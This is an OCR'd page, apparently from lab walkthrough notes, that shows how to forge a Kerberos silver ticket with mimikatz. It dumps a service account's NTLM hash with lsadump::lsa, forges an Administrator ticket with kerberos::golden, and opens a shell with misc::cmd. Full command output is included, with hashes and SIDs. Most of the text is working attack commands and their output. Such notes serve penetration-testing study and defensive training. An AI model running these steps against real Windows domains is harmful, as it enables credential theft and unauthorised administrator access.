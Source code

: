 - ``Kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:`` - This is the command for creating a golden ticket to create a silver ticket simply put a service NTLM hash into the krbtgt slot, the sid of the service account into sid, and change the id to 1103.

1. in mimikats: ``lsadump::lsa /inject /name:SQLService`` To create a silver ticket we need this for the service accout SID and the 

```shell
Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860 

RID  : 00000455 (1109)
User : SQLService

 * Primary
    NTLM : cd40c9ed96265531b21fc5b1dafcfb0a
    LM   :
  Hash NTLM: cd40c9ed96265531b21fc5b1dafcfb0a
    ntlm- 0: cd40c9ed96265531b21fc5b1dafcfb0a
    lm  - 0: 7bb53f77cde2f49c17190f7a071bd3a0
```

2. create out silver ticket: ``Kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:cd40c9ed96265531b21fc5b1dafcfb0a /id:1103`` we replaced the administrator krbtgt with the SQLService NTLM hash and sid with our SQLService account SID and changed the ID to 1103.

```shell
mimikatz # Kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:cd40c9ed96265531b21fc5b1dafcfb0a /id:1103 
User      : Administrator 
Domain    : controller.local (CONTROLLER)
SID       : S-1-5-21-432953485-3795405108-1502158860
User Id   : 1103
Groups Id : *513 512 520 518 519
ServiceKey: cd40c9ed96265531b21fc5b1dafcfb0a - rc4_hmac_nt
Lifetime  : 6/21/2022 1:08:57 AM ; 6/18/2032 1:08:57 AM ; 6/18/2032 1:08:57 AM
-> Ticket : ticket.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted 
 * KrbCred generated

Final Ticket Saved to file !
```

##  Use the Golden/Silver Ticket to access other machines 

1. ``misc:cmd``

```shell
mimikatz # misc::cmd 
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF631EF43B8 
````
